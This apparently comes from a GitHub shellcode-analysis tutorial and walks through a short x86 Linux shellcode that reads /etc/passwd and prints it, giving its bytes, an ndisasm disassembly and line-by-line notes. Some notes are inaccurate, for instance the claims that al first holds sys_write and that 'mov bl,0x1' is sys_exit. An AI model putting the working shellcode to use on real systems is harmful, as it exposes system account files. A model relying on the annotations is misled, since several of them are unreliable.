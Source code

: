## Shellcode analysis case 2

----

#### Shellcode - Reads /etc/passwd
```
\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73
\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f
\x65\x74\x89\xe3\xcd\x80\x93\x91\xb0\x03
\x31\xd2\x66\xba\xff\x0f\x42\xcd\x80\x92
\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x93\xcd
\x80
```

Binary ninja graph:

![graph](https://raw.githubusercontent.com/x00pwn/lowlevel-shellcode-analysis/master/graph_images/case2-graph.png)

` echo -ne "\x31\xc9\xf7\xe1\xb0\x05\x51\x68\x73\x73\x77\x64\x68\x63\x2f\x70\x61\x68\x2f\x2f\x65\x74\x89\xe3\xcd\x80\x93\x91\xb0\x03\x31\xd2\x66\xba\xff\x0f\x42\xcd\x80\x92\x31\xc0\xb0\x04\xb3\x01\xcd\x80\x93\xcd\x80" | ndisasm -u -` convert the shellcode to x86 ASM via ndisasm
```
Disassembly-
00000000  31C9              xor ecx,ecx
00000002  F7E1              mul ecx
00000004  B005              mov al,0x5
00000006  51                push ecx
00000007  6873737764        push dword 0x64777373
0000000C  68632F7061        push dword 0x61702f63
00000011  682F2F6574        push dword 0x74652f2f
00000016  89E3              mov ebx,esp
00000018  CD80              int 0x80
0000001A  93                xchg eax,ebx
0000001B  91                xchg eax,ecx
0000001C  B003              mov al,0x3
0000001E  31D2              xor edx,edx
00000020  66BAFF0F          mov dx,0xfff
00000024  42                inc edx
00000025  CD80              int 0x80
00000027  92                xchg eax,edx
00000028  31C0              xor eax,eax
0000002A  B004              mov al,0x4
0000002C  B301              mov bl,0x1
0000002E  CD80              int 0x80
00000030  93                xchg eax,ebx
00000031  CD80              int 0x80
```

Analysis:

As usual, the shellcode starts by clearing out the ecx register, then it moves the linux `sys_write` syscall into the al register. Then the shellcode pushes the string `//etc/passwd` onto the stack in little endian format and split up.

**Clearing the registers** Using XOR ECX, ECX we can have the ECX register cleared by turning it to 0x00000000. Then using mul ecx to `EDX:EAX = EAX * ECX` which will then clear EAX and EDX
```assembly
xor    ecx,ecx        ; clear out ecx as prep
mul    ecx            ;
```
**Open the file** Moving 0x05 into al is using the sys_open linux syscall, sys_open requires 3 arguments, path in EBX, flags on ECX, and MODE on EDX
```assembly
mov    al,0x5         ; linux syscall (sys_open, 0x05)
push   ecx
push   0x64777373     ; push 'dwss' to the stack
push   0x61702f63     ; push 'ap/c' to the stack
push   0x74652f2f     ; push 'te//' to the stack
mov    ebx,esp        ; putting the address and "location" of the file into ebx
int    0x80           ; sys interrupt
```

**Reading the file** 
```assembly
xchg   eax,ebx        ; 
xchg   eax,ecx
mov    al,0x3         ; using the (sys_read) sycall
xor    edx,edx
mov    dx,0xfff       ; the size to read from the file (4095 bytes)
inc    edx
int    0x80           ; sys interrupt
```

```assembly
xchg   eax,edx
xor    eax,eax        ; clearing out EAX register
mov    al,0x4         ; (sys_write) syscall
mov    bl,0x1         ; (sys_exit) syscall
int    0x80           ; sys interrupt
```

**Exits without SYS_EXIT**
```assembly
xchg  eax,ebx
int   0x80            ; sys interrupt
```
